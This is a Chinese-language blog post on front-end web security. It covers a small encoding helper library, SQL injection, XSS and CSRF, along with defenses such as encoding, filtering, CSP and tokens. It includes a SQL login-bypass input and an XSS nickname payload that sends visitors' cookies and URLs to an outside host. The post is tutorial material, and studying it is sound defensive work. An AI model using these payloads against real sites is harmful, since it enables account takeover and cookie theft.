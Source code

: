 ```yaml
---
title: 前端安全
date: 2018-01-25 19:11:25
tags: [xss, crsf]
categories: web前端
---
```


```html
<font color="#aaf">safetools 的使用方式</font>
```

[demo](http://h5.test.jimistore.com/base/xss)

1. 引用 js 包（内容很少，也可以将内容拷贝出来，直接引用方法）
2. 将需要提交的数据经过 filter 即可，如下：

```js
浏览器自带转换为字符串
var newValue = safetools.encode(value)

正则加密（可能有兼容）
var newValue = safetools.reEncode(value)

正则解密（可能有兼容）
var newValue = safetools.reDecode(value)
```

> tag: 前端交互，涉及到数据流动并需要在返回在页面上显示的，一定要经过后端！

# <font color="#aaf">常见的攻击手段</font>

## <font color="#0af">1. SQL 脚本注入攻击于与防御</font>

### 概念

> 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的SQL Injection，即SQL注入.

### 场景

语句

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果恶意填入：
> userName = "1' OR '1'='1"; passWord = "1' OR '1'='1";

既可实现无密码登录，美滋滋吧...

### 处理方式

前端和 XSS 处理类似，对传递的数据进行筛选，重点是后端对数据的处理！

## <font color="#0af">2. XSS 攻击与防御</font>

### 概念

> <font color="green">跨站脚本</font>（Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。
XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

### 类型

#### 简单分类

1. 反射型xss

通过一次 xss 请求，将数据渲染到页面，请求 -> 返回数据，例子：搜索
2. 储存型xss

通过一次 xss 请求，直接将数据储存在数据库，下次调用无需继续请求，例如：评论

#### 复杂分类

1. client 型
2. server 型

### 处理方式

* 编码
> 将 > ( 标签转换为字符串，可以处理大多数 xss 攻击

* 过滤
> 有的语句并不完全依赖<>标签，例如src="javascript:alert(1);"

* 校正
> 这个照理来说应该后端处理，目前没碰到这种场景

```js
> 一个直播平台，用户可以进入观看，主播可以设置自己的昵称:
var starNickName = '${starNickname}'
```

这怕是要翻水水了...假设是我是主播，我把昵称设置为：

```js
';window.location.href="http//:blog.jzxer.cn/?cook=" + document.cookie + '&url=' window.location.href;''
```

这一串如果传到后端，而后端又没有校正的话的话，这怕是傻眼了...观众进来一个死一个，我应该也会进去蹲几天吧，吧。。。

* CSP

```html
在头部加入：

<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

meta：不信任任何URL，即不加载任何资源样式表只信任 cdn.example.org 和 third-party.org 框架 (frame) 必须使用HTTPS协议加载 其他资源：没有限制 启用后，不符合 CSP 的外部资源就会被阻止加载。
> 注意：该属性目前比较新，hotfix 和 chorme 支持较好，并不适用于所有的浏览器。

## <font color="#0af">3. CSRF</font> 

> <span style="color:green;">跨站请求伪造</span>（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

### 处理方式

* 验证码

在请求的同时，带个token,或者验证码

* Referer Check

这个可以伪造...但加入更保险

> 注意：如果网站有XSS漏洞或者一些跨域漏洞，可能导致Token泄露。 在XSS攻击下，读取Token值，然后再构造出一个合法的请求，可以称为：XSRF。

## 小结

web 安全是个需要长期坚持的事情，没有绝对安全的产品，我们需要做到的就是能够提前预防和及时修复。
